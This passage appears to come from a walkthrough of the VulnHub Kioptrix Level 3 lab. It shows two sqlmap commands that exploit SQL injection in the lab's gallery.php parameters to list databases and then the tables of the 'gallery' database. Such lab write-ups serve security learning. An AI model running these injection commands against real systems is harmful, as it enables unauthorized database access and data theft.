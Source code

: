 ![SQL Injection|600](images/vulnhub-kioptrix-lvl3/sql-injection-1.png)

```bash
# Dump database names
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort --dbs --output-dir=sqlmap
```

![SQL Injection|600](images/vulnhub-kioptrix-lvl3/sql-injection-2.png)

```bash
# Dump table names
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort -D gallery --tables --output-dir=sqlmap
```

![SQL Injection|600](images/vulnhub-kioptrix-lvl3/sql-injection-3.png)
